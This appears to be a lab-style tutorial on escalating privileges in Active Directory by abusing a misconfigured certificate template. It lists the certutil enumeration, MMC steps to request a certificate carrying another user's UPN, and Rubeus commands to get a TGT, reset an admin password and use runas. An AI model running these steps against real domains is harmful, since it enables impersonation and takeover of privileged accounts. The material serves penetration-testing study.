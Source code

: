Active Directory Certificate Services (AD CS) is Microsoft's PKI solution integrated into Active Directory, used for encrypting files, verifying digital signatures, and user authentication. Unlike public CAs, AD CS can issue certificates internally, which can be used for internal applications without internet access.<br>
The diagram below shows what the flow for certificate requests and generation looks like:

![6abc4f005b619e77d22020817efcd569](https://github.com/user-attachments/assets/3ba2536a-e948-4c2f-8574-ba64bc653edd)<br>



Before we dive deeper into certificate abuse, some terminology:

> PKI - Public Key Infrastructure is a system that manages certificates and public key encryption<br>
> AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers<br>
> CA - Certificate Authority is a PKI that issues certificates<br>
> Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA<br>
> CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate<br>
> EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used<br>


**Certificate template enumeration:**

```
certutil -v -template > cert_templates.txt
```

the outpute of this file may be difficult to read but we are looking for some indicators will tell us that one of the templates is vulnerable. THere is 3 of them to generate a malicious certificate.

1) *Parameter 1: Relevant Permissions*

  We are essentially looking for a template where our user has either the ```Allow Enroll``` or ```Allow Full Control``` permission. You will probably never find a certificate where you have the Allow Full Control permission. However, if you do, congratulations! You can misconfigure the template yourself to make it vulnerable! But for now, let's focus on Allow Enroll.<br>
the *cert_templates.txt* contains the *Allow Enroll* permission setting to *Domain Users* 
  ```
 Allow Enroll	LUNAR\Domain Users
```
  
3) *Parameter 2: Client Authentication*
   To ensure a certificate is suitable for Kerberos authentication, check for the ```Client Authentication``` Extended Key Usage (EKU) in the certificate templates. This EKU allows the certificate to be used for client authentication.
   
5) *Parameter 3: Client Specifies SAN*
  ensure the certificate template allows you to specify the Subject Alternative Name (SAN). Look for the ```CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT``` property flag set to ```1```, indicating you can control the SAN. If a template meets all required conditions, including this SAN capability, you could escalate to Enterprise Admin rights with the right setup.<br>
**Impersonation via SAN:**
    > When a UPN is included in the SAN field of a certificate, it allows the certificate to be associated with a specific user account.<br>
    > If an attacker can obtain a certificate with the UPN of a target account in the SAN field, they can potentially impersonate that user.<br>
    > This certificate can be used in authentication protocols like Kerberos or mutual TLS, where the identity of the user is validated based on the certificate.<br>
   > The system will trust the certificate as if it was issued legitimately to the user, allowing the attacker to access resources and perform actions as if they were the target user.<br>

**UPN** ```Is the username used to log into a domain, formatted as username@domain.com```<br>

**Generating a malicious certificate**

Now that we identified a certificate template that we can exploit, it is time to generate the certificate request.<br>
Here’s the steps for requesting and exporting a certificate using MMC:
```
   1 Open MMC:
        Type mmc in a Run window and press Enter.

   2 Add Certificates Snap-in:
        Click File -> Add/Remove Snap-in...
        Select Certificates and click Add.

  3 Request a New Certificate:
        Expand Certificates -> Personal.
        Right-click on Personal, select All Tasks, then click Request New Certificate...

   4 Proceed with Request:
        Click Next twice to proceed with default CA settings.

   5 Provide Certificate Details:
        Click More information is required to enroll this certificate  (the vulnarable one).

   6 Configure Certificate Properties:
        Change Subject name Type to Common Name and provide the desired certificate name.
        Change Alternative name Type to User principal name (UPN) and provide the UPN of the account you wish to impersonate (e.g., svc.gitlab@lunar.eruca.com).

   7 Enroll the Certificate:
        Click OK to add properties.
        Complete the certificate enrollment.

   8 Export the Certificate:
        Right-click the certificate under Personal -> Certificates.
        Select All Tasks, then click Export...
        Follow the prompts to export, ensuring to export the private key as well.
        Choose PKCS #12 (.pfx) format and set a password for the private key.
        Save the certificate to a file.
```


**User impersonation through a certificate**
<br>

Now we can finally impersonate a user. To perform this, two steps are required:
   > Use the certificate to request a Kerberos ticket granting ticket (TGT).<br>
   > Load the Kerberos TGT into your hacking platform of choice(we will use Rubues).

We will use the following command to request the TGT:<br>
```Rubeus.exe asktgt /user:<UserHavingAdminAccessToImpersonate> /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:<DomainName> /dc:<IP of domain controller>``` <br>

| Option | Description |
|---|---|
| /user | Specifies the user that we will impersonate and must match the UPN for the certificate we generated. |
| /dc | The IP of the domain controller where we are requesting the TGT from. Usually it's best to select a DC that has a CA service running. |

To know that the CA service running or not you can use this command ```certutil -ping <DomainControllerName>```<br>
![Screenshot from 2024-08-31 02-40-05](https://github.com/user-attachments/assets/792f230c-79ce-4917-8303-1fe6c8b61167)


NOw we have an administrative TGT, we can change password of an admin user to take over his account or do ```runas``` command.
```
Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:<MachineHaveCARunning> /targetuser:<DomainName>\<usernameWeChangeHisPassword>
```
Finally, we could use ```runas /user:<DominName>\<usernameWeChangedHisPassword> cmd.exe```
   
    
